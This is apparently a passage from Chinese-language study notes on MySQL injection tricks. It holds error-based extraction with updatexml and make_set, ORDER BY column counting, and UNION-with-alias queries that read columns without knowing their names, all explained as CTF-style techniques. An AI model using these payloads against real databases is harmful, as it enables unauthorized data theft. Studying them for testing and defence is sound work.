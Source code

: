 ```sql
SELECT object_name FROM `performance_schema`.`objects_summary_global_by_type` WHERE object_schema = DATABASE();
```



## 过滤 concat



![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img2/20210815211057.png)

![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img2/20210815211114.png)

将bits转为二进制，1的二进制为0001，倒过来为1000，取比特位为1的字符，这里从左往右取字符串，若该字符串所对应位置的比特位为0，则不取。最后返回比特位为1的子字符串由逗号分隔拼接的字符串。

```sql
select updatexml(1,make_set(3,'~',(select flag from flag)),1);
```





# 6. 注入Trick



## 利用Order By判断列数

```
select * from test order by 2;
```



## Order By 无列名注入

1. 如果场景中无法通过columns获取列名，可以通过union select 和 order by来爆破从而绕过列名限制

![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img2/20210815210348.png)

可以通过虚拟的表来逐位逐位的得到被过滤的dog字段的值，在mysql中的排序，数字比字母先，字符串从前往后逐位比较。

![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img2/20210815210552.png)



## 利用子查询（union+别名）进行无列名注入

![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img2/20210815210723.png)

比如

```mysql
select `1` from (select 1,2,3,4,5,6,7,8 union select * from users)a limit 1 offset 1;
select x.1 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users)x limit 1 offset 1;
select b from (select 1,2,3 as b union select * from admin)a;
```
